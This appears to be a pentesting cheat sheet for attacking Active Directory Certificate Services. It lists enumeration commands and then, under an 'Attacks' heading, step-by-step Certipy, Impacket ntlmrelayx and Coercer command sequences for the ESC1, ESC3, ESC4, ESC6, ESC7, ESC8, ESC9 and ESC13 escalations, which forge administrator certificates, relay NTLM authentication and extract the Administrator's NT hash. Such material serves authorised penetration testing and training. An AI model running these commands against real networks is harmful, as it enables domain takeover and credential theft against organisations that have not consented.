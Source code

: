 # Enumeration
### NetExec
Find PKI Enrollment Services in Active Directory and Certificate Templates Names
```
nxc ldap ip -u username -p password -M adcs
```
### Certipy
Search for vulnerable certificate templates
```
certipy find -u username -p password -dc-ip ip -vulnerable -enabled
```
List CAs, servers and search for vulnerable certificate templates
```
certipy find -u username -p password -dc-ip ip -dns-tcp -ns ip -debug
```
### Certify
Search for vulnerable certificate templates
```powershell
Certify.exe find /vulnerable
```
# Attacks
## ESC1
Create a new machine account
```
addcomputer.py domain/username:password -computer-name computer_name -computer-pass computer_password
```
Use ability to enroll as a normal user & provide a user defined Subject Alternative Name (SAN)
```
certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator@domain -dns domain -dc-ip ip
```
Authenticate with the certificate and get the NT hash of the Administrator
```
certipy auth -pfx pfx_file -domain domain -username username -dc-ip ip
```
## ESC3
Request a certificate
```
certipy req -username username -password password -ca ca -target domain -template template
```
Request a certificate on behalf of other another user
```
certipy req username -password password -ca ca -target domain -template User -on-behalf-of 'domain\administrator' -pfx pfx_file
```
Authenticate as Administrator
```
certipy auth -pfx administrator.pfx -dc-ip ip
```
## ESC4
Overwrite the configuration to make it vulnerable to ESC1
```
certipy template -username username -password password -template template -save-old -dc-ip ip
```
Now if you run this command, it should show that the certificate is vulnerable to ESC1
```
certipy find -u username -p password -dc-ip ip -dns-tcp -ns ip -stdout -debug
```
## ESC6
```
certipy req -username administrator@domain -password password -ca ca -target domain -template template -upn administrator@domain
```
## ESC7
In order for this technique to work, the user must also have the `Manage Certificates` access right, and the certificate template `SubCA` must be enabled. With the `Manage CA` access right, we can fulfill these prerequisites.
If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.
```
certipy ca -ca ca -add-officer username -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
```
Enable the `SubCA` template on the CA using the `-enable-template` parameter. By default, the `SubCA` template is enabled.
```
certipy ca -ca ca -enable-template SubCA -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
```
This request will be denied, but we will save the private key and note down the request ID.
```
certipy req -username username@domain -password password -ca ca -target ip -template SubCA -upn username@domain
```
With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.
```
certipy ca -ca ca -issue-request request_ID -username username@domain -password password
```
And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.
```
certipy req -username username@domain -password password -ca ca -target ip -retrieve request_ID
```
Authenticate with the certificate and get the NT hash of the Administrator
```
certipy auth -pfx $pfx -domain domain -username username -dc-ip ip
```
## ESC8
If there is an ADCS Server that is not on the DC and has Web Enrollement activated we might be able to exploit ESC8.
```
ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server
```
```
coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue
```
```
certipy- auth -pfx administrator.pfx
```
## ESC9
```
certipy shadow auto -username username@domain -hashes :hash -account target_username
```
```
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
```
```
certipy req -username target_username@domain -hashes :target_hash -ca ca -template template -target $DC_IP
```
```
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
```
```
certipy auth -pfx administrator.pfx -domain domain
```
## ESC13
```
certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip -key-size 4096
```
```
python3 gettgtpkinit.py -cert-pfx pfx_file domain/username ccache_file -dc-ip ip -v
```
# Resources
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#adcs-enumeration
- https://vulndev.io/2023/07/01/vl-intercept-walkthrough/
- https://www.bulletproof.co.uk/blog/abusing-esc13-from-linux
- https://logan-goins.com/2024-05-04-ADCS/
- https://www.tarlogic.com/blog/ad-cs-esc7-attack/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-3/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/
# Tools
- https://github.com/ly4k/Certipy
- https://github.com/GhostPack/Certify
